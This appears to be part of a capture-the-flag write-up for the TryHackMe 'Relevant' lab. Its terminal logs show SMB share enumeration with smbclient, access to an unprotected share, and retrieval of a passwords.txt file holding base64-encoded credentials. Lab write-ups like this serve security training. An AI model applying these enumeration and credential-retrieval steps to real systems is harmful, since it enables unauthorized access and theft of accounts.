 # Relevant
Link: https://tryhackme.com/room/relevant


[NMAP SCAN](nmap.txt)

 smbclient -L 10.10.39.64
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
Reconnecting with SMB1 for workgroup listing.
Connection to 10.10.39.64 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
root@ip-10-10-74-21:~# 

root@ip-10-10-74-21:~# smbclient \\\\10.10.39.64\\nt4wrksv
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 25 22:46:04 2020
  ..                                  D        0  Sat Jul 25 22:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 16:15:33 2020

		7735807 blocks of size 4096. 4950520 blocks available
smb: \> cat passwords.txt
cat: command not found
smb: \> get
get <filename> [localname]
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> 
smb: \> pwd
Current directory is \\10.10.39.64\nt4wrksv\
smb: \> exit
root@ip-10-10-74-21:~# ls
Desktop    Instructions   Pictures  Rooms    thinclient_drives
Downloads  passwords.txt  Postman   Scripts  Tools
root@ip-10-10-74-21:~# cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

root@ip-10-10-74-21:~# 
